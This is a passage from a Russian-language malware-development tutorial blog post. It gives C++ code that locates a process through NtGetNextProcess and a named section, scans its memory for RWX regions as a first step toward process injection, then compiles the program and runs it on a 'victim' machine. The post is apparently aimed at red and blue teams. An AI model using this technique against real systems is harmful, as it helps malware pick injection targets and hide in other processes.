  fNtGetNextProcess_t myNtGetNextProcess = 
  (fNtGetNextProcess_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = 
  (fNtOpenSection_t)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      // check for "\Sessions\1\BaseNamedObjects\UrlZonesSM_test1" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;

      WCHAR objPath[] = L"\\Sessions\\1\\BaseNamedObjects\\UrlZonesSM_test1";
      sName.Buffer = (PWSTR)objPath;
      sName.Length = wcslen(objPath) * sizeof(WCHAR);
      sName.MaximumLength = sName.Length + sizeof(WCHAR);

      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }
  return current;
}

int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}


int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;
}
```

Как можно заметить, логика проста: проверяем имя секции и пытаемся её открыть.     

### демонстрация 3

Давайте посмотрим третий пример в действии. Компилируем:    

```bash
x86_64-w64-mingw32-g++ hack3.c -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-lpsapi -lshlwapi -w
```

{width="80%"}      

Затем запускаем на машине жертвы:    

```powershell
.\hack3.exe OneDrive.exe
```

{width="80%"}      

Как можно заметить, всё снова сработало идеально!    

Если кто-то видел подобный трюк в реальном вредоносном ПО и APT, пожалуйста, напишите мне, возможно, я плохо искал. Мне кажется, что эта техника уже известна злоумышленникам.    

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике исследования процессов и добавит оружие в арсенал красных команд.     

[Process injection via RWX-memory hunting. Simple C++ example.](https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html)      
[Malware development trick - part 30: Find PID via NtGetNextProcess. Simple C++ example.](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html)    
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-04-09-malware-cryptography-26)    
